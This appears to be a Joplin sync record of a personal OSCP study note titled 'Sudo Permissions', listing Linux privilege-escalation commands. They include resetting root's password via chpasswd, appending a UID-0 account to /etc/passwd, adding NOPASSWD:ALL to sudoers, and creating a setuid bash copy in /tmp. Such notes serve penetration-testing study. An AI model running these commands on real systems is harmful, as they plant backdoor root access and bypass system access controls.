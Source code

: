 id: 5231638ac8994ea8af70db4bbf0319e5
parent_id: 
item_type: 1
item_id: 67a7f5b13b7b46029c8bd8206eda21c7
item_updated_time: 1643358992707
title_diff: "[{\"diffs\":[[1,\"Sudo Permissions\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":16}]"
body_diff: "[{\"diffs\":[[1,\"https://blog.adithyanak.com/oscp-preparation-guide/linux-privilege-escalation/sudo-abuse\\\n\\\nExecute the following\\\n\\\n> sudo -l\\\n\\\n![13ad1bb1d8fab303c042b69d590d4109.png](:/eee68cc68e58408ba6a9b11990ad92b7)\\\n\\\n# User Escalation Methods\\\n\\\nTo manually change the config files to gain higher privileges ( If they are writable)\\\n\\\n> echo root:gl0b0 | /usr/sbin/chpasswd\\\n\\\n// exploit : exploit (pwd)\\\n\\\n> echo \\\"exploit:YZE7YPhZJyUks:0:0:root:/root:/bin/bash\\\" >> /etc/passwd | su - exploit\\\n\\\nnano /etc/passwd -> change GID to root\\\n\\\nnano /etc/sudoers -> user ALL=(ALL) NOPASSWD:ALL\\\n\\\ncp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash;\\\n\\\n/tmp/rootbash -p\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":630}]"
metadata_diff: {"new":{"id":"67a7f5b13b7b46029c8bd8206eda21c7","parent_id":"2deea0a2fd65431c90074dad6a2d5de8","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-28T08:39:15.771Z
created_time: 2022-01-28T08:39:15.771Z
type_: 13
